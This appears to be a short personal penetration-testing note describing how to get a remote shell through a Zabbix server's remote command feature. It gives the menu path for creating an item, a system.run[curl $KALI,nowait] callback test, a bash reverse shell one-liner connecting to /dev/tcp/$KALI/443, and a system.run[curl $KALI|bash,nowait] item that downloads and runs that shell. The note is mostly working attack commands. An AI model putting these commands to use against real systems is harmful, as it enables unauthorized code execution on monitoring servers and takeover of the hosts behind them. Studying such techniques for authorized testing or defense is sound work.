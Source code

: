 ```yaml
---
category: Uncategorized
tags: []
---
```

https://blog.zabbix.com/zabbix-remote-commands/7500/

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Configuration > Hosts > $Hostname > Configuration > Items > Create Item
```
system.run[curl $KALI,nowait]
```

Click `Test`, then `Get value`, check listener.

![[Pasted image 20220925113513.png]]

```bash - kali
echo '/bin/bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"' > index.html
```

```
system.run[curl $KALI|bash,nowait]
```


